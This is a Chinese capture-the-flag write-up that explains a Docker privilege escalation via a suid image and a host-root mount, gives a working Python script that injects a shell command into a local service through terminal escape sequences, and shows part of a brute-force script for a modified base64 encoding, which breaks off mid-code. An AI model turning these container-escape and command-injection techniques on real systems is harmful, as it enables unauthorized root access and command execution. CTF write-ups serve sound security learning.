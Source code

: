 ## Docker for Everyone Plus

### Unbreakable!

同第一问，构造一个带有 `suid` 的程序的镜像，然后 `--security-opt="no-new-privileges:false"` 就可以愉快的提权了。因为设备还是没有挂载，所以不能直接访问 `/dev/vdb`，但我们可以挂载 `/:/outside`，然后容器内 `su-exec root chmod 777 /outside/dev/vdb`，再退出容器就可以在宿主机上读取到 flag 了。

## 动画分享

- 没想到 `\r` 也可以换行，但是多发几次就可以了，只要保证 payload 紧跟着 CTRL+C（`\x03`）就行；
- payload 如果直接 `cp` 需要 `chmod`，所以这里 `cat` 重定向一条也够了；

```python
#!/usr/bin/env python3

import socket
import time

def send(content):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(2.0)
    sock.connect(("127.0.0.1", 8000))
    sock.sendall(content)
    sock.recv(8192)
    sock.close()

send(b"GET / HTTP/1.1 \x1bP$q\n")
send(b"\x03cat /flag2 > /dev/shm/1\n")
send(b"\x1B\x5c\n")

time.sleep(1)

with open("/dev/shm/1", "r") as f:
    print(f.read())
```

## 神秘代码 2

fuzzing。

### flag2

观察到每 3 个字节输入变成了 4 个字节输出，所以猜测是 base64 编码魔改。每次爆破三个字节然后更新当前爆破出的前缀就可以了。

```python
import subprocess
import multiprocessing
import time

PROCESS_NUM = 16
TIME_SLEEP = 60

def subtask(current, current_state_target, idx):
    show_progress = (idx == 0)
    for n in range(idx, 256 ** 3, PROCESS_NUM):
        if show_progress and n % 80000 == 0:
            print(n / 256 ** 3)
        s = n.to_bytes(3, "big")
        current_test = current + s
        process = subprocess.Popen(["./uxnmin", "level2.rom"], stdin=subprocess.PIPE, stdout=subprocess.PIPE)
        process.stdin.write(current_test)
        process.stdin.close()
```